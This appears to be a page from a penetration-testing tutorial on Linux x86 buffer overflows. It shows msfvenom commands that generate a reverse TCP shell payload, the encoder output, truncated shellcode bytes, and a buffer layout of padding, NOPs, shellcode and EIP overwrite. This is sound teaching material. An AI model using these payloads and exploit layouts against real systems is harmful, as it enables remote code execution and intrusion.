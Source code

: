 But before we generate our shellcode, we have to make sure that the individual components and properties match the target system. Therefore we have to pay attention to the following areas:

- `Architecture`
- `Platform`
- `Bad Characters`

#### MSFvenom Syntax

```shell
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>

```

#### MSFvenom - Generate Shellcode

```shell
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode

```

#### Shellcode

```shell
cat shellcode

unsigned char buf[] =
"\xda\xca\xba\xe4\x11\xd4\x5d\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
"\x12\x31\x50\x17\x03\x50\x17\x83\x24\x15\x36\xa8\x95\xcd\x41"
"\xb0\x86\xb2\xfe\x5d\x2a\xbc\xe0\x12\x4c\x73\x62\xc1\xc9\x3b"
<SNIP>

```

Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.

#### Notes

```shell
   Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
     NOPs = "\x90" * 124
Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
      EIP = "\x66" * 4'

```
